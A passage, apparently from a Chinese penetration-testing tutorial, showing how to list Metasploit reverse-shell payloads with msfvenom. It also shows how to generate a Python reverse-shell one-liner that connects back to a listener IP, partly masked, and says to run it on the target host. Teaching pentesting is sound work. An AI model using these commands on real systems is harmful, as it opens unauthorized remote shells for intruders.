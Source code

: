 我们直接可以使用 `msfvenom -l` 结合关键字过滤（如cmd/unix/reverse），列出我们需要生成的各类反弹shell一句话的payload：

```
msfvenom -l payloads | grep 'cmd/unix/reverse'
```

![image-20210505233706645](images/image-20210505233706645.png)

如上图所示，metasploit支持生成反弹shell一句话的类型非常丰富，大家可以依据渗透测试对象自行选择使用。比如，我们获取一个python反弹shell的一句话：

```
msfvenom -p cmd/unix/reverse_python LHOST=47.xxx.xxx.72 LPORT=2333 -f raw
```

![image-20210505233728526](images/image-20210505233728526.png)

将生成的python反弹shell的一句话在目标主机上执行即可：

![image-20210505233751793](images/image-20210505233751793.png)
